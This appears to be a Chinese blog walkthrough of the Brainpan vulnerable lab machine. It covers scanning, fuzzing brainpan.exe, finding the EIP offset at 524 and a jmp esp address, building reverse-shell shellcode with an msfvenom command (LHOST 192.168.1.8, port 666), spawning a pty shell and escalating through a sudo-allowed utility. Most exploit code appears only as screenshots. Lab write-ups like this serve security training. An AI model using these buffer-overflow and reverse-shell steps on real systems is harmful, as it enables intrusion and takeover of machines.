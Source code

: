 ```yaml
---
title: Brainpan
date: 2021-10-14
swiper: false # 将改文章放入轮播图中
swiperImg: '/medias/1.jpg' # 该文章在轮播图中的图片，可以是本地目录下图片也可以是http://xxx图片
img: 'http://cdn.mxrblog.cn/ct_6.jpg' # 该文章图片，可以是本地目录下图片也可以是http://xxx图片
categories: walkthrough
tags: [渗透测试, 靶机]
top: false
---
```




# brainpan

## brainpan渗透测试

[参考链接1](https://blog.csdn.net/qq_34801745/article/details/103949489)

[参考链接2](https://www.cnblogs.com/darklee/p/14466851.html)

[参考链接3](https://bbs.pediy.com/thread-255058.htm#msg_header_h3_5)

- 首先扫描靶机位置以及开放的端口

![image-20210706141719309](http://cdn.mxrblog.cn/image-20210706141719309.png)

- 可以看到靶机开启了9999和10000端口，其中10000端口开启了http服务，访问靶机的访问靶机的10000号端口服务

![image-20210706141902068](http://cdn.mxrblog.cn/image-20210706141902068.png)

- 没有什么有价值的线索， 扫描一下http服务的目录（扫描目录这个过程出现了一点小波折，总之把靶机重新启动一下就好了）

![image-20210706142317846](http://cdn.mxrblog.cn/image-20210706142317846.png)

- 返现bin目录下有东西，我们访问一下，发现可执行文件

![image-20210706143249570](http://cdn.mxrblog.cn/image-20210706143249570.png)

- 下载brainpan.exe到攻击机器

![image-20210706143436955](http://cdn.mxrblog.cn/image-20210706143436955.png)

- 是windows可执行文件，移至windows环境中，使用Immunity Debugger打开，然后运行

![image-20210707035547856](http://cdn.mxrblog.cn/image-20210707035547856.png)

- 在win10上开启的是9999端口，使用fuzz脚本进行模糊测试
- 在网上下载fuzz脚本进行下载,下载地址:

```
git clone https://github.com/jessekurrus/brainpan
```

- 通过看代码，可以知道brainfuzzer.py的内容是发送初始值为100的A，每次增加100个，直至程序崩溃

![image-20210707041122867](http://cdn.mxrblog.cn/image-20210707041122867.png)



- Executing brainfuzzer.py scrtpt, It wa found that a crash occurred at 700 A

![image-20210707035932038](http://cdn.mxrblog.cn/image-20210707035932038.png)

- 用msf生成1000个有规律的字符序列

```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 1000
```

![image-20210707053219397](http://cdn.mxrblog.cn/image-20210707053219397.png)

- 修改brainpan1.py, 将里面的序列替换成我们的

![image-20210707041454618](http://cdn.mxrblog.cn/image-20210707041454618.png)

- 重启Immunity Debugger上的brainpan.exe (Ctrl+F2), F9执行， 再在攻击机器上运行brainpan1.py

![image-20210707041835761](http://cdn.mxrblog.cn/image-20210707041835761.png)



- 可以发现此时的EIP地址是35724134

![image-20210707042149055](http://cdn.mxrblog.cn/image-20210707042149055.png)

- 使用mfs计算EIP的偏移量

```
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 35724134
```

- 为524

![image-20210707042342854](http://cdn.mxrblog.cn/image-20210707042342854.png)

- 修改brainpan2.py代码

![image-20210707053912035](http://cdn.mxrblog.cn/image-20210707053912035.png)

- 在攻击机器上执行brainpan2.py, 我们能发现EIP的地址已经是42424242（BBBB的16进制）， ESP的起始地址是005FF910

![image-20210707053948699](http://cdn.mxrblog.cn/image-20210707053948699.png)

- 寻找跳板 jmp esp ，在Immunity Debugger中 Ctrl+F4搜索 jmp esp, 得到地址为311712F3

![image-20210707074011842](http://cdn.mxrblog.cn/image-20210707074011842.png)

- 使用msfvenom创建我的反向shell有效shellcode
  - -p表示加载模块，-f python表示格式化为python代码，-b为坏字符

```
msfvenom -p linux/x86/shell_reverse_tcp -b "\x00\x0a\x0d" LHOST=192.168.1.8 LPORT=666 -f python
```

![image-20210707080646846](http://cdn.mxrblog.cn/image-20210707080646846.png)

- 修改brainpan4.py

![image-20210707080622710](http://cdn.mxrblog.cn/image-20210707080622710.png)

- 监听本地666号端口

![image-20210707080807444](http://cdn.mxrblog.cn/image-20210707080807444.png)

- 执行brainpan4.py

```
python brainpan4.py 192.168.1.6 9999   //注意，这次的地址不是win10的了，而是靶机的地址
```

![image-20210707083510729](http://cdn.mxrblog.cn/image-20210707083510729.png)

- 设置交互式shell

```
python -c 'import pty; pty.spawn("/bin/bash")'
```

![image-20210707085429547](http://cdn.mxrblog.cn/image-20210707085429547.png)

- 开始提权，看看有什么是现用户能使用的超级用户权力，使用sudo -l

![image-20210707083641954](http://cdn.mxrblog.cn/image-20210707083641954.png)

- 执行一下，发现命令还需要有三个参数，我们选择第三个

![image-20210707084110484](http://cdn.mxrblog.cn/image-20210707084110484.png)

```
sudo /home/anansi/bin/anansi_util manual cat
```

![image-20210707085613225](http://cdn.mxrblog.cn/image-20210707085613225.png)

![image-20210707085713346](http://cdn.mxrblog.cn/image-20210707085713346.png)



